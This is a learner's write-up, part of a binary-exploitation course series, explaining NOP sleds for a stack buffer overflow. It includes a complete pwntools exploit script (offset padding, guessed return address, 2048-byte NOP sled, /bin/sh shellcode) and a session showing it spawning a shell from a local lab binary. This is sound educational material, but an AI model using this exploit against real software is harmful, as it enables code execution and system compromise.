 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).

# B&E III: NOP Sleds

If you were following along in the last two parts, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to _the environment variables stored by the stack._ If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this _our exploit code is not likely to work on a different target system_ because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, _the offsets will be the same_. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.

## NOP Sleds

In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
<br>
<br>
![](/md-images/Pasted%20image%2020231121173335.png)
<br>
<br>
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our _best guess_ is an address within our NOP sled, which is the next part of the injection payload.

### What is a NOP?

'NOP' stands for 'non operational' or 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to _not change the state of the program_ (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.

### Why NOP?

Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as _executable filler_. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and _slide into our shellcode_ placed at the end of the NOP sequence. That's why this technique is called a _NOP sled_.

Using this technique, our payload on the stack will look something like this:
<br>
<br>
![](/md-images/Pasted%20image%2020231124142229.png)
<br>
<br>
Compared to our basic overflow (the first image) the shellcode is at the _END_ of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed.

### NOP Sled Length

We want our NOP sled to be pretty long so we can _increase the likelihood_ that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.

## Re-Writing our Exploit

Our exploit code will now look like this:

```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```

Compared to our basic overflow code:

1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.

## NOP Slide into the Main Frame!

```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```

_Noice!_

In the next part of this series, we'll make our exploit _even more reliable_ by using ROP Gadgets!

> Resources
>
> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
> -   [Wikipedia: NOP](<https://en.wikipedia.org/wiki/NOP_(code)>)
> -   [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

> My previous notes:
>
> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)
